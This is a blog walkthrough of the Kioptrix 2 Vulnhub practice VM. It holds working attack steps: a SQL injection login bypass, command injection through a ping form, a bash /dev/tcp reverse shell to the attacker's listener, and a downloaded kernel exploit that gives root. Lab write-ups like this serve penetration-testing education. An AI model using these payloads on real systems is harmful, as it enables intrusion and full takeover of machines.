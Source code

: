 ```yaml
---
layout: post
title: "Kioptrix 2 Walkthrough (Vulnhub)"
date: 2016-12-15 12:00:00
share: true
comments: true
tags: [Vulnhub Walkthrough, Kioptrix series]
---
```


_Kioptrix 2 VM can be downloaded [here](https://www.vulnhub.com/entry
/kioptrix-level-11-2,23/)._

## 0\. Get VMs IP

```console
root@kali:~# netdiscover -r 192.168.1.0/24

 Currently scanning: Finished!   |   Screen View: Unique Hosts

 260 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 15600
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.1.67    c4:e9:84:10:d3:5e    255   15300  TP-LINK TECHNOLOGIES CO.,LTD.
 **...**
```

## 1\. Enumeration

### 1.1 TCP Ports enumeration

```console
root@kali:~# nmap 192.168.1.67 -sV

Starting Nmap 7.31 ( https://nmap.org ) at 2016-12-15 00:30 EST
Nmap scan report for 192.168.1.67
Host is up (0.000049s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: C4:E9:84:10:D3:5E (Tp-link Technologies)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.64 seconds
```

Hmm, some interesting services we see running on the machine. Most of these are pretty old. I did a quick search for existing exploits and didn't find any. It's still very possible that other vulnerabilities exist, yet I decided to check the web server running first.

Note: I didn't do a full TCP scan as it was taking way too long. Running it in
the background after the initial scan is might be useful.

_____________________________________________________________________________

## 2\. Web server

#### 2.1 Login form

<table align="center" border="1" cellpadding="2" cellspacing="2" style="width: 300px;">  <tbody>
<tr>    <td align="center" colspan="2"><b>Remote System Administration Login</b>    </td>   </tr>
<tr>    <td width="150">Username</td>    <td><input name="uname" type="text" /></td>   </tr>
<tr>    <td width="150">Password</td>    <td><input name="psw" type="password" />    </td>   </tr>
<tr>    <td align="center" colspan="2"><input name="btnLogin" type="submit" value="Login" />    </td>   </tr>
</tbody></table>
 

Hitting `http://192.168.1.67` shows us a login form, possibly vulnerable to SQL injection. I tried the vanilla `admin' or 1=1 #` and it worked!

Why did it work? Possibly because the query is in this form:

```sql
SELECT * from users where username="$_REQUEST["username"]" and password="$_REQUEST["password"]"
```

After submitting `admin" or 1=1 #`, it's evaluated to:

```sql
SELECT * from users where username="admin" or 1=1 # //ignored
```
which logs us in as admin.


#### 2.2 Admin interface

<h4>
<form action="pingit.php" method="post" name="ping" target="_blank">
<table border="1" style="width: 600px;">  <tbody>
<tr valign="middle">    <td align="center" colspan="2"><b>Welcome to the Basic Administrative Web Console</b>    </td>   </tr>
<tr valign="middle">    <td align="center">Ping a Machine on the Network:    </td>     <td align="center"><input name="ip" size="30" type="text" />     <input name="submit" type="submit" value="submit" />    </td>    </tr>
</tbody></table>
</form>
</h4>

This looks very vulnerable to an RCE (Remote Code Injection) attack. Let's try appending commands to it.


  * **Input:**  127.0.0.1
    **Output:**
```
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.010 ms
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.012 ms
    
    --- 127.0.0.1 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 1998ms
    rtt min/avg/max/mdev = 0.010/0.011/0.012/0.003 ms, pipe 2
```

  * **Input:**  127.0.0.1; whoami
    **Output:**
```
    PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
    64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.007 ms
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.012 ms
    64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.013 ms
    
    --- 127.0.0.1 ping statistics ---
    3 packets transmitted, 3 received, 0% packet loss, time 1999ms
    rtt min/avg/max/mdev = 0.007/0.010/0.013/0.004 ms, pipe 2
    apache
```


`whoami` returned apache! We're able to execute arbitrary commands. Let's get a shell by starting a listener on attacking machine.

```console
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
```

Then getting a reverse shell connected to it.

**Input:** 127.0.0.1; bash -i &gt;&amp; /dev/tcp/192.168.1.69/443 0&gt;&amp;1
**Output on attacking machine:**
```console
    root@kali:~# nc -nvlp 443
    listening on [any] 443 ...
    connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769
    bash: no job control in this shell
    bash-3.00$
```
Awesome! We got a shell as apache user.

_____________________________________________________________________________

## 3\. Getting root

Basic enumeration will reveal that this CentOS version **(4.5 Final) **is vulnerable to  [ CVE-2009-2698 ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-2698)
Exploit can be found [here](https://www.exploit-db.com/exploits/9542/).

```console
root@kali:~# nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.1.69] from (UNKNOWN) [192.168.1.67] 32769
bash: no job control in this shell
bash-3.00$ cat /etc/issue
Welcome to Kioptrix Level 2 Penetration and Assessment Environment
--The object of this game:
|_Acquire "root" access to this machine.
There are many ways this can be done, try and find more then one way to
appreciate this exercise.
DISCLAIMER: Kioptrix is not resposible for any damage or instability
caused by running, installing or using this VM image.
Use at your own risk.
WARNING: This is a vulnerable system, DO NOT run this OS in a production
environment. Nor should you give this system access to the outside world
(the Internet - or Interwebs..)

Good luck and have fun!
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
bash-3.00$ uname -mrs
Linux 2.6.9-55.EL i686
bash-3.00$ cat /etc/redhat-release
CentOS release 4.5 (Final)
bash-3.00$ cd /tmp
bash-3.00$ wget https://www.exploit-db.com/download/9542 --no-check-certificate
--23:08:44--  https://www.exploit-db.com/download/9542
           => `9542'
Resolving www.exploit-db.com... 192.124.249.8
Connecting to www.exploit-db.com|192.124.249.8|:443... connected.
WARNING: Certificate verification error for www.exploit-db.com: unable to get local issuer certificate
WARNING: certificate common name `*.sucuri.net' doesn't match requested host name `www.exploit-db.com'.
HTTP request sent, awaiting response... 200 OK
Length: 2,645 (2.6K) [application/txt]

    0K ..                                                    100%  210.21 MB/s

23:08:45 (210.21 MB/s) - `9542' saved [2645/2645]

bash-3.00$ ls
9542
index.html
bash-3.00$ mv 9542 a.c
bash-3.00$ gcc a.c
bash-3.00$ ./a.out
sh: no job control in this shell
sh-3.00#
```

Quite easy and straight forward! 

